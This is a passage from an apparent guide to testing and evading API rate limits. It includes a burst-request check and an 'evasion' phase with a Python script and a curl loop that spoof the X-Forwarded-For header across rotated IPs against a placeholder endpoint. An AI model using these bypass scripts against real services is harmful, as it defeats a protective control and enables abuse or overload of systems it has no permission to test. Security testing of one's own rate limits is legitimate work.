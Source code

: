 Explanation: This loop sends ten requests in quick succession.  This should trigger the rate limit if it is configured correctly.

Expected Output:  After a few successful requests, subsequent requests should return a 429 status code and potentially `Retry-After` headers. This confirms rate limiting is working.

**Phase 2: Evasion Techniques**

**Strategy 1: IP Address Rotation**

**Step 4: Acquiring Multiple IP Addresses**

(This step depends on your environment. It may involve using a proxy service, VPN, or cloud provider with the ability to allocate multiple IP addresses.)

Explanation: Obtain multiple IP addresses to send requests from. This bypasses rate limits based on IP address tracking.

Expected Output: A list of valid IP addresses that can be used for making requests.

**Step 5: Rotate IP Addresses in Requests**

```python
import requests
import random

ips = ["<ip_address_1>", "<ip_address_2>", "<ip_address_3>"]  # Replace with your IP addresses
url = "http://<target_service_ip>:<target_service_port>/api/endpoint"

for _ in range(20):
    ip = random.choice(ips)
    headers = {"X-Forwarded-For": ip}  # Simulate requests coming from different IPs
    try:
        response = requests.get(url, headers=headers)
        print(f"Request from {ip}: Status Code {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"Request failed: {e}")
```

Explanation: This Python script iterates 20 times, randomly selecting an IP address from the `ips` list and sending a request to the target URL. The `X-Forwarded-For` header is used to simulate requests originating from different IP addresses. Replace placeholders for IP addresses, the target service IP and port.

Expected Output: If successful, the script will be able to make multiple requests without triggering the rate limit. Look for HTTP status codes that are not 429. The `X-Forwarded-For` header injection may be blocked by the Ingress controller or require additional configuration to be properly handled. If the `X-Forwarded-For` is not properly processed, you are still likely hitting the rate limit.

**Alternative (using curl):**

```bash
for i in {1..20}; do
  ip=$(echo "<ip_address_1> <ip_address_2> <ip_address_3>" | awk -v n="$((RANDOM % 3 + 1))" '{print $n}')
  curl -H "X-Forwarded-For: $ip" -I http://<target_service_ip>:<target_service_port>/api/endpoint
done
```
